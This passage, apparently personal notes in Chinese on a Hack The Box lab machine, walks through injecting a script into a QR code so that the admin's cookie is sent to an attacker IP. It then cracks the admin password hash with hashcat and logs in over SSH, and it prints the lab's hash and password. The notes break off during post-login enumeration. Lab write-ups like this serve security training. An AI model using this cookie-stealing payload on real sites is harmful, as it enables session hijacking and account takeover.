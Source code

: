 构建自己的flask bank app

https://github.com/sk03d/flask_bank_api

![image-20240807154302495](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807154302495.png)

在数据包中修改域名

![image-20240807154427080](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807154427080.png)

![image-20240807154441286](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807154441286.png)



成功生成自己的二维码

![image-20240807154546130](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807154546130.png)

```
34e43b844f27003525548517cf48761a.0d341bcdc6746f1d452b3f4de32357b9.</p><script>var i=new Image(); i.src="<http://10.10.16.35:4444/?cookie=>"+btoa(document.cookie);</script><p>
```

修改二维码，添加脚本获取cookie

![image-20240807155549337](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807155549337.png)



保存二维码，需要发送给管理员morty获取管理员cookie,参考

https://medium.com/@Infinite_Exploit/magicgardens-htb-htb-writeup-htb-walkthrough-season-5-65c956d588fa

利用得到的cookie登录管理员后台，在管理员后台可以得到管理员密码

```
pbkdf2_sha256$600000$y1tAjUmiqLtSdpL2wL3h56$61u2yMfK3oYgnL31fX8R4k/0hTc6YXRfiOH4LYVsEXo=
```

用hashcat破解，得到密码

```
jonasbrothers
```



ssh登录

```
ssh morty@10.10.11.9
```

![image-20240807161355086](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807161355086.png)

还有一个用户alex

![image-20240807161518348](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807161518348.png)

查找相关进程
